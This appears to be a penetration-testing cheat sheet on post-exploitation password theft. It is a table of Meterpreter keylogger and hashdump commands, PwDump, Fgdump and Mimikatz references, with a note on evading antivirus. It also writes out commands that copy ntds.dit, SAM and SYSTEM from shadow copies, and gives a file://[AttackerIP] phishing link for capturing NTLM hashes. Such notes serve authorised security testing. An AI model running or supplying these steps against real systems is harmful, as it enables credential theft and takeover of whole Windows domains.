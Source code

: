 ```yaml
---
title: Obtaining Passwords
category: Post-Exploitation
order: 6
---
```


> **What to Grab** 

Metasploit Key logger for passwords | keyscan_start, keyscan_stop, keyscan_dump
PwDump | Pwdump drops files to disk and caught by AV <br> http://www.tarasco.org/security/pwdump_7/
Fgdump | fgdump drops files to disk and caught by AV <br> Source available to evade AV <br> http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Metasploit hashdump | meterpreter >hashdump (from memory)
meterpreter > run hashdump (hash and syskey from registry)
Mimikatz |  https://www.offensive-security.com/metasploit-unleashed/Mimikatz/ <br> https://www.christophertruncer.com/golden-ticket-generation/ <br> http://blog.opensecurityresearch.com/2012/06/using-mimikatz-to-dump-passwords.html <br> http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html
Volume Shadow Copy Service (domain controller) |  Obtain from : <br> https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs <br> https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py  <br> <code> cscript vssown.vbs /status or /start or /create /c <br> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit <br> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak <br> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak <br> Analyze with http://csabarta.com/downloads/ntds_dump_hash.zip
Sniff (Kannan, ntlm, ms kerberos) | E-mail with link: <br> file://[AttackerIP]/[AttackerShare] <br> Sniff the traffic between victim and client for challenge and response"


